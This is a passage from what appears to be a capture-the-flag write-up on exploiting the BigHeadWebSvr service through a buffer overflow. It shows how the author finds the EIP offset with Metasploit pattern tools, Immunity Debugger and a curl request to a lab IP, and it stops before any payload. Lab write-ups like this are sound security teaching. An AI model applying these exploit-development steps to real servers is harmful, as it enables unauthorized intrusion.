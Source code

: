 ### nginx

I’ll first build something talking directly to the `BigHeadWebSvr`, but once I’m done, I’ll run it over `nginx`, as that will filter some bad requests out if I’m not careful. I’ll install `nginx`, and get it running using the config from GitHub. The first time I solved this I remember this caused me a great deal of issues. But in going back now and resolving it, and I don’t remember exactly what those issues where. I’ll need to make sure I send a valid http request with a valid url, and a url that is routed to `BigHeadWebSrv`, or else nginx will filter it before it gets to BigHeadWebSrv.

## Exploit Parts

### Find EIP Offset

First I need to find the offset to EIP. Because my input is translated from hex to binary before it overwrites, I’ll send in my input hex encoded. So I’ll make a pattern using `msf-pattern_create`, and then use `xxd` and `tr` to get it formatted how I need it:

```

root@kali# msf-pattern_create -l 50 | xxd -p | tr -d "\n"
41613041613141613241613341613441613541613641613741613841613941623041623141623241623341623441623541620a

```

I’ll fire up `BigHeadWedSvr.exe` and then attach Immunity to it. Note, sometimes to get Immunity to work, I’ll need to completely exit it, then start the web server, then start Immunity and attach. If I leave it open between runs, things get weird. Immunity isn’t the greatest.

Now I’ll send my pattern:

```

root@kali# curl --head http://10.1.1.146:8008/4161304161314161324161334161344161354161364161374161384161394162304162314162324162334162344162354162

```

In my Windows VM:

![1554139213884](https://0xdfimages.gitlab.io/img/1554139213884.png)

If I click ok and hit the run button, I’ll see EIP: ![1554139238133](https://0xdfimages.gitlab.io/img/1554139238133.png)

Because of the weird way I’m putting in bytes as hex in the url, I’ll need to reverse the byte order to use pattern offset:

```

root@kali# msf-pattern_offset -q 41326241
[*] Exact match at offset 36

```
